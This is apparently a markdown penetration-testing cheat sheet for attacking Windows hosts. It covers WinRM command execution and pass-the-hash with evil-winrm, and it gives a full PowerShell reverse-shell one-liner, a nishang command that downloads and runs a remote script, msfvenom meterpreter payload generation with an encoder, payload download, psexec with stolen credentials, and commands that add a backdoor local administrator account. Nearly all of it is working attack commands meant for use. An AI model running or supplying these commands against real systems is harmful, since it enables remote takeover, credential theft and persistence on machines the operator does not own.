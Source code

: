 # Tools
## crackmapexec
- command execution over winrm
```bash
crackmapexec winrm -u user -p password -x whoami $ip
```

## evil-winrm
- open winrm session with password
```bash
evil-winrm -i $ip -u user -p password
```
- open winrm session with ntlm hash (pass the hash)
```bash
evil-winrm -i $ip -u user -H hash
```

# Reverse shell
- Powershell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Reverse shell with nishang Invoke-PowershellTcp
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress 10.6.77.211 -Port 4444
```
## Metasploit
- Upgrade shell to meterpreter session
```sh
# Generate Payload with msfvenom then serve it with SimpleHTTPServer
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o rshell.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
python3 -m http.server 8000
```

- Download and execute payload on target machine
```powershell
powershell (New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')
```

- Reverse/Privilege Escalation with credentials
```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py domain/user:password@0.0.0.0 cmd.exe
```

# post exploitation consolidation
## create admin user
```
net user h3xit p@ssw0rd /add
net localgroup administrators h3xit /add
net localgroup "remote management users" h3xit /add
```

# tools
## evil-winrm
### dump credentials